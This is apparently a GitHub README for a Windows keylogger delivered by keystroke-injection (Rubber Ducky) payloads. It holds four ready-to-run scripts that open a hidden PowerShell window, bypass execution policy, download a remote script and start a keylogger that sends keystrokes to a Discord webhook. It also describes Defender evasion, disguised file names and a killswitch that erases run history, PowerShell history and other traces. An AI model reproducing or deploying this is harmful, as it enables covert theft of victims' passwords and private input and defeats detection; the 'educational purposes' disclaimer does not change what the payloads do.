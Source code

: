 # Keylogger 
Download and execute a keylogger executable to run on the target machine that logs all keystrokes to a text file and sends the file to a Discord webhook every 30 seconds. Optional killswitch. Only compatible on Windows 64-bit targets.

Two versions of the executable have been created, ```usersystem32.exe``` and ```svcusersystem32.exe```.
Whilst developing the ```usersystem32.exe``` executable, Windows Defender eventually picked up on it and it got flagged as a PUP/virus. 

```svcusersystem32.exe``` is the successor which includes some random mathematical functions to try and throw off the detection. If you would like to test them out for yourself, you might need to disable **Real-time protection** in your Windows settings (Windows Security > Virus & threat protection settings > Real-time protection). 

Don't forget to re-enable this setting once you have tested and played around with the keylogger yourself.

The ```service.ps1``` script will manage the download of the keylogger, sending of data to the webhook and the killswitch. If a killswitch is set, the following actions are done:
1. Keylogger executable process is stopped
2. The folder created in the temp directory where the keylogger executable and text file that it writes to is deleted
3. Run history is cleared
4. Terminal output is cleared
5. Powershell history is cleared
6. Recycle bin is emptied
7. Powershell script itself self-deletes

If no killswitch is set, the script will run until the machine is powered off. All files are downloaded in the users ```temp``` directory anyway, so these will be cleared. However, powershell and run history will not be cleared and may be able to reveal instances of the keylogger existing. Including a killswitch will always be more discreet. 

The PowerShell script, keylogger executables and text files that are generated to log the keystrokes have been given non-suspicious names to try and avoid detection. 

---

### Usage 

#### Base Keylogger with killswitch
```
GUI r
DELAY 500 
STRING powershell 
DELAY 500 
ENTER 
DELAY 2000 
STRING powershell -w h -NoP -Ep Bypass Invoke-WebRequest "https://github.com/tpazz/Cute-Little-Duckies/raw/main/keylogger/service.ps1" -OutFile "service.ps1"; .\service.ps1 -webhookUrl "[YOUR DISCORD WEBHOOK]" -killSwitch "2024-06-27T17:28:00" -exe "usersystem32"
DELAY 1000
ENTER
```
#### Advanced Keylogger with killswitch
```
GUI r
DELAY 500 
STRING powershell 
DELAY 500 
ENTER 
DELAY 2000 
STRING powershell -w h -NoP -Ep Bypass Invoke-WebRequest "https://github.com/tpazz/Cute-Little-Duckies/raw/main/keylogger/service.ps1" -OutFile "service.ps1"; .\service.ps1 -webhookUrl "[YOUR DISCORD WEBHOOK]" -killSwitch "2024-06-27T17:28:00" -exe "svcusersystem32"
DELAY 1000
ENTER
```
#### Base Keylogger without killswitch
```
GUI r
DELAY 500 
STRING powershell 
DELAY 500 
ENTER 
DELAY 2000 
STRING powershell -w h -NoP -Ep Bypass Invoke-WebRequest "https://github.com/tpazz/Cute-Little-Duckies/raw/main/keylogger/service.ps1" -OutFile "service.ps1"; .\service.ps1 -webhookUrl "[YOUR DISCORD WEBHOOK]" -exe "usersystem32"
DELAY 1000
ENTER
```
#### Advanced Keylogger without killswitch
```
GUI r
DELAY 500 
STRING powershell 
DELAY 500 
ENTER 
DELAY 2000 
STRING powershell -w h -NoP -Ep Bypass Invoke-WebRequest "https://github.com/tpazz/Cute-Little-Duckies/raw/main/keylogger/service.ps1" -OutFile "service.ps1"; .\service.ps1 -webhookUrl "[YOUR DISCORD WEBHOOK]" -exe "svcusersystem32"
DELAY 1000
ENTER
```

## DISCLAIMER
ALL scripts, programs and files in this repository are intended for educational purposes only. The author is not responsible for any damages, unauthorized access, or illegal activities that may arise from this content.
